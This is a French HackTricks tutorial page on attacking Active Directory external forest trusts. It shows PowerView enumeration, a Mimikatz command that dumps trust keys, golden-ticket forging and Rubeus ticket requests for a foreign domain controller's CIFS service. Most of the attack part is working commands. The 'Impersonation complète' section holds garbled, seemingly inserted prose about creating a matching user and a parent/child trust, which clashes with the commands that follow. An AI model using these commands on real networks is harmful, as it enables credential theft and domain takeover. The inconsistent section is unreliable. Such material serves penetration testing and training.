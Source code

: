 # Domaine forestier externe - Unidirectionnel (entrant) ou bidirectionnel

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Travaillez-vous dans une **entreprise de cybersécurité** ? Voulez-vous voir votre **entreprise annoncée dans HackTricks** ? ou voulez-vous avoir accès à la **dernière version de PEASS ou télécharger HackTricks en PDF** ? Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* **Rejoignez le** [**💬**](https://emojipedia.org/speech-balloon/) [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR au [repo hacktricks](https://github.com/carlospolop/hacktricks) et au [repo hacktricks-cloud](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

Dans ce scénario, un domaine externe vous fait confiance (ou les deux se font confiance), vous pouvez donc obtenir un certain type d'accès dessus.

## Énumération

Tout d'abord, vous devez **énumérer** la **confiance** :
```powershell
Get-DomainTrust
SourceName      : a.domain.local   --> Current domain
TargetName      : domain.external  --> Destination domain
TrustType       : WINDOWS-ACTIVE_DIRECTORY
TrustAttributes : 
TrustDirection  : Inbound          --> Inboud trust
WhenCreated     : 2/19/2021 10:50:56 PM
WhenChanged     : 2/19/2021 10:50:56 PM

# Get name of DC of the other domain
Get-DomainComputer -Domain domain.external -Properties DNSHostName
dnshostname           
-----------           
dc.domain.external

# Groups that contain users outside of its domain and return its members
Get-DomainForeignGroupMember -Domain domain.external
GroupDomain             : domain.external
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=domain,DC=external
MemberDomain            : domain.external
MemberName              : S-1-5-21-3263068140-2042698922-2891547269-1133
MemberDistinguishedName : CN=S-1-5-21-3263068140-2042698922-2891547269-1133,CN=ForeignSecurityPrincipals,DC=domain,
                          DC=external

# Get name of the principal in the current domain member of the cross-domain group
ConvertFrom-SID S-1-5-21-3263068140-2042698922-2891547269-1133
DEV\External Admins

# Get members of the cros-domain group
Get-DomainGroupMember -Identity "External Admins" | select MemberName
MemberName
----------
crossuser

# Lets list groups members
## Check how the "External Admins" is part of the Administrators group in that DC
Get-NetLocalGroupMember -ComputerName dc.domain.external
ComputerName : dc.domain.external
GroupName    : Administrators
MemberName   : SUB\External Admins
SID          : S-1-5-21-3263068140-2042698922-2891547269-1133
IsGroup      : True
IsDomain     : True

# You may also enumerate where foreign groups and/or users have been assigned 
# local admin access via Restricted Group by enumerating the GPOs in the foreign domain.
```
Dans l'énumération précédente, il a été découvert que l'utilisateur **`crossuser`** est membre du groupe **`External Admins`** qui a un accès **Admin** dans le **DC du domaine externe**.

## Accès initial

Si vous n'avez trouvé **aucun accès spécial** de votre utilisateur dans l'autre domaine, vous pouvez toujours revenir à la méthodologie AD et essayer de **privesc à partir d'un utilisateur non privilégié** (comme le kerberoasting par exemple) :

Vous pouvez utiliser les fonctions **Powerview** pour **énumérer** l'**autre domaine** en utilisant le paramètre `-Domain` comme ceci :
```powershell
Get-DomainUser -SPN -Domain domain_name.local | select SamAccountName
```
## Impersonation

### Connexion

En utilisant une méthode régulière avec les identifiants de l'utilisateur qui a accès au domaine externe, vous devriez être en mesure d'accéder :
```powershell
Enter-PSSession -ComputerName dc.external_domain.local -Credential domain\administrator
```
### Abus de l'historique SID

Vous pouvez également abuser de l'[**historique SID**](sid-history-injection.md) à travers une confiance de forêt.

Si un utilisateur est migré **d'une forêt à une autre** et que **la filtration SID n'est pas activée**, il devient possible d'**ajouter un SID de l'autre forêt**, et ce **SID** sera **ajouté** au **jeton de l'utilisateur** lors de l'authentification **à travers la confiance**.

{% hint style="warning" %}
Pour rappel, vous pouvez obtenir la clé de signature avec
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.domain.local
```
{% endhint %}

Vous pourriez **signer avec** la clé **de confiance** un **TGT se faisant passer pour** l'utilisateur du domaine actuel.
```bash
# Get a TGT for the cross-domain privileged user to the other domain
Invoke-Mimikatz -Command '"kerberos::golden /user:<username> /domain:<current domain> /SID:<current domain SID> /rc4:<trusted key> /target:<external.domain> /ticket:C:\path\save\ticket.kirbi"'

# Use this inter-realm TGT to request a TGS in the target domain to access the CIFS service of the DC
## We are asking to access CIFS of the external DC because in the enumeration we show the group was part of the local administrators group
Rubeus.exe asktgs /service:cifs/dc.doamin.external /domain:dc.domain.external /dc:dc.domain.external /ticket:C:\path\save\ticket.kirbi /nowrap

# Now you have a TGS to access the CIFS service of the domain controller
```
### Impersonation complète de l'utilisateur

---

#### Description

Dans cette méthode, nous allons créer un utilisateur dans notre domaine qui aura les mêmes informations d'identification que l'utilisateur que nous voulons impersonner. Ensuite, nous allons configurer une relation d'approbation unidirectionnelle entre notre domaine et le domaine cible. Enfin, nous allons utiliser l'utilisateur que nous avons créé pour nous connecter au domaine cible.

#### Étapes

1. Créez un nouvel utilisateur dans votre domaine avec les mêmes informations d'identification que l'utilisateur que vous voulez impersonner.

2. Configurez une relation d'approbation unidirectionnelle entre votre domaine et le domaine cible. La relation doit être configurée de manière à ce que votre domaine soit le domaine parent et le domaine cible soit le domaine enfant.

3. Utilisez l'utilisateur que vous avez créé pour vous connecter au domaine cible. Vous devriez maintenant avoir un accès complet en tant qu'utilisateur cible.

#### Remarques

- Cette méthode nécessite des privilèges d'administration sur votre domaine et sur le domaine cible.

- Cette méthode peut être détectée en surveillant les événements d'audit sur le domaine cible.
```bash
# Get a TGT of the user with cross-domain permissions
Rubeus.exe asktgt /user:crossuser /domain:sub.domain.local /aes256:70a673fa756d60241bd74ca64498701dbb0ef9c5fa3a93fe4918910691647d80 /opsec /nowrap

# Get a TGT from the current domain for the target domain for the user
Rubeus.exe asktgs /service:krbtgt/domain.external /domain:sub.domain.local /dc:dc.sub.domain.local /ticket:doIFdD[...snip...]MuSU8= /nowrap

# Use this inter-realm TGT to request a TGS in the target domain to access the CIFS service of the DC
## We are asking to access CIFS of the external DC because in the enumeration we show the group was part of the local administrators group
Rubeus.exe asktgs /service:cifs/dc.doamin.external /domain:dc.domain.external /dc:dc.domain.external /ticket:doIFMT[...snip...]5BTA== /nowrap

# Now you have a TGS to access the CIFS service of the domain controller
```
<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Travaillez-vous dans une entreprise de **cybersécurité** ? Voulez-vous voir votre **entreprise annoncée dans HackTricks** ? ou voulez-vous avoir accès à la **dernière version de PEASS ou télécharger HackTricks en PDF** ? Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* **Rejoignez le** [**💬**](https://emojipedia.org/speech-balloon/) **groupe Discord** ou le [**groupe telegram**](https://t.me/peass) ou **suivez-moi** sur **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live).
* **Partagez vos astuces de piratage en soumettant des PR au [dépôt hacktricks](https://github.com/carlospolop/hacktricks) et au [dépôt hacktricks-cloud](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
